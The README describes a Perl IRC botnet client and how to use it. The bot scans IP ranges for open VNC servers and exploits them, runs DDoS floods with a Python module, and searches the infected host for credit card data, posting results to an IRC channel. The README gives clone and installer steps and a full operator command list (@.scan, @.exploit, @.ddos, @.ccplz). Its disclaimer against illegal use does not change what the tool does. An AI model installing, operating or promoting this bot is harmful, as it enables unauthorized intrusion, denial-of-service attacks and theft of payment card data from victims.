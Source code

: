 # By using the code in this repository you agree do these terms:
I (The Author) am not responsible for any actions you make with this program.
You will not use this program to commit illegal crimes.
You take entire responsability if you damage your or someone else's computer.

#Description
This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.
The bot can also search for credit card informations in the computer that the bot is running.
There is also a DDoS module made in Python, for taking out the target from the network.


# --- How to install ---
 git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
 cd PerlIRCSSL_VNCbypass
 chmod +x ./*
# (if using Debian, Kali or Ubuntu) 
 ./debian-installer.sh
# (elseif running CentOS)
 ./centos-installer.sh

# --- COMMANDS ---
#NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
--this will scan 192.168.0.0/16 CIDR
@.scan 192.168.0.0-192.168.255.255 
---This needs to be done before each @.exploit
@.format 
---This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
---This kills the exploit run
@.stopexploit 
---This will ddos 127.0.0.1 on port 8080 tcp with 10000 packets in size with 1000 threads
@.ddos 127.0.0.1 8080 n 10000 1000 
---This kills the running ddos, do I even need to explain this?...
@.ddos.stop
---This will scan computer for credit card info and report in the channel.
@.ccplz
---below command is almost useless
@.ping 

# ---NOTE---
In order for bot to work you need to be operator in the channel, it also must be registered with services.
# YOU MUST autovoice your bots else you will not get any output in the server.

